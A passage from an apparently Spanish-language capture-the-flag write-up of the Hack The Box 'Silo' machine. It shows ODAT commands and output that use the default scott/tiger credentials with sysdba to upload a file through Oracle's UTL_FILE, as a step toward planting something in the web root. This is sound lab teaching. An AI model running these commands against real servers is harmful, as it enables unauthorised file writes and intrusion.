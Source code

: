Ejecutamos sin el argumento `--sysdba`, le indicamos que vamos a subir un archivo a la ruta `C:\Windows\System32\Temp` llamado `hola.txt` que lo tenemos en nuestra máquina con el nombre `hola.txt`:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --putFile 'C:\Windows\System32\Temp' hola.txt hola.txt

[1] (10.10.10.82:1521): Put the hola.txt local file in the C:\Windows\System32\Temp folder like hola.txt on the 10.10.10.82 server
[-] Impossible to put the hola.txt file: `ORA-01031: insufficient privileges`
```

Ahora como **sysdba**:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile 'C:\Windows\System32\Temp' hola.txt hola.txt

[1] (10.10.10.82:1521): Put the hola.txt local file in the C:\Windows\System32\Temp folder like hola.txt on the 10.10.10.82 server
[-] Impossible to put the hola.txt file: `ORA-29283: invalid file operation ORA-06512: at "SYS.UTL_FILE", line 536 ORA-29283: invalid file operation ORA-06512: at line 1`
```

e.e Cambia el error, pero es un error, probemos otra ruta temporal:

```bash
❭ python3 odat.py utlfile -s 10.10.10.82 -p 1521 -d XE -U scott -P tiger --sysdba --putFile 'C:\Windows\Temp' hola.txt hola.txt

[1] (10.10.10.82:1521): Put the hola.txt local file in the C:\Windows\Temp folder like hola.txt on the 10.10.10.82 server
[+] The hola.txt file was created on the C:\Windows\Temp directory on the 10.10.10.82 server like the hola.txt file
```

Perfecto (o pues eso parece :P), se subio el archivo :)

Sabiendo esto podemos intentar subir algo a la ruta en la que esta el servidor web, si buscamos la ruta por default en Windows tenemos:

![131google_default_pathWebServerWIN](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131google_default_pathWebServerWIN.png)
